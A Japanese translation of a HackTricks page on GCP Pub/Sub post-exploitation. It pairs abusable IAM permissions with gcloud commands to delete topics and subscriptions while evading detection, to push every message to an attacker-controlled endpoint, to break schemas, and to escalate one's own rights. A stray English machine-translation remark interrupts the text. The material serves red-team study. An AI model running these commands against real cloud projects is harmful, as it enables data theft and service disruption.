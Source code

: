 # GCP - Pub/Sub ポストエクスプロイト

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## Pub/Sub

Pub/Subについての詳細は、以下のページを参照してください:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

トピックにメッセージを公開し、**予期しないデータを送信**して予期しない機能をトリガーしたり、脆弱性を悪用するのに役立ちます:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

検出を避けるために、サブスクリプションがメッセージを受信するのを防ぐのに役立ちます。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

サブスクリプションがメッセージを受信するのを防ぐために役立ちます。検出を避けるためかもしれません。\
サブスクリプションがアタッチされているトピックでも削除することが可能です。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

この権限を使用して、`--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`などのトピックの設定を更新し、混乱させます。

### `pubsub.topics.setIamPolicy`

以前の攻撃を実行するための権限を自分自身に与えます。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

ウェブサーバーのすべてのメッセージを取得します：

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

サブスクリプションを作成し、それを使用して**メッセージをプル**します：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**サブスクリプションを削除する** は、ログ処理システムなどを混乱させるのに役立つ可能性があります。
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

この権限を使用して、メッセージがアクセス可能な場所（URL、Big Queryテーブル、バケット）に保存されるように設定を更新するか、単にそれを中断します。

### `pubsub.subscriptions.setIamPolicy`

以前にコメントした攻撃を実行するために必要な権限を自分自身に付与します。

### `pubsub.schemas.delete`

スキーマに準拠していないメッセージを送信できるようにスキーマを削除します：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

トピックにスキーマをアタックして、メッセージがそれを満たさないようにし、その結果トピックが混乱します。\
スキーマがない場合は、作成する必要があるかもしれません。

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
Since the provided text does not contain any English content to translate, there is no translation to provide. The text is a closing tag for a code block in markdown syntax. If you have any specific content that needs translation, please provide the English text.
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

以前にコメントされた攻撃を実行するために必要な権限を自分自身に与えます。

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

これにより、ACKされていないすべてのメッセージのスナップショットが作成され、サブスクリプションに戻されます。攻撃者にとってあまり役に立たないかもしれませんが、ここにあります：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でゼロからヒーローまでAWSハッキングを学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
